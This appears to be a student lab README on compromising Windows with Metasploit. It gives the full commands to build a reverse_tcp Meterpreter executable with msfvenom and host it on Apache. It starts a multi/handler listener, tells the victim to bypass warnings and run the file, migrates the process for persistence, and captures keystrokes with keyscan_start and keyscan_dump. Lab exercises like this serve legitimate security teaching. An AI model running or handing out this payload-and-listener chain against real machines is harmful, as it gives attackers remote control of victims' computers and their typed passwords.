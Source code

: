# Compromising-windows-using-Metasploit

## Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1:
Install kali linux either in partition or virtual box or in live mode

Step 2:
Investigate on the various categories of tools as follows:

Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e3b4e8ad-0744-41da-bf0e-00af2819b316)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e5f93487-fe4d-4ca2-ae87-40528759b8ca)


copy the fun.exe into the apache /var/www/html folder

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a7061eec-78cb-4924-8bfd-750819217ae4)

Start apache server sudo systemctl apache2 start

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/94f19b88-677c-4e52-9f3e-9c0692c1b517)

Check the status of apache2

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/b0acfb58-3df4-4054-94b9-cbee552a7016)

Invoke msfconsole:

### OUTPUT:
msfconsole

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/44262e98-e486-48b5-ac0b-a46ce64aea0e)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/df212ae7-e067-4020-8c25-1c0aa43b59e7)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/8e273f1c-0127-4bf3-84fb-fb78e9c6ac90)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/70a3b4d8-0dcc-4370-9fcd-2c3677d0895e)

Bypass any warning boxes, double-click the file, and allow it to run. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e8a7eea1-3cc6-4ecb-958f-fde637a7fae8)

On kali give the command exploit 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/65425abf-0758-4378-8135-3ff71f48e582)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/5d0014c5-4c05-4600-9961-06a15007e0f3)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/f67156a4-303a-46e8-988b-f6cfedf969a8)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e6b6fbc1-4c4c-4e14-a3d8-10249cff2969)

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a33bbc37-38ac-45b3-b0a3-fd26b82ed9ab)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/4f311cb3-83cd-4564-a90b-590e1397a284)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
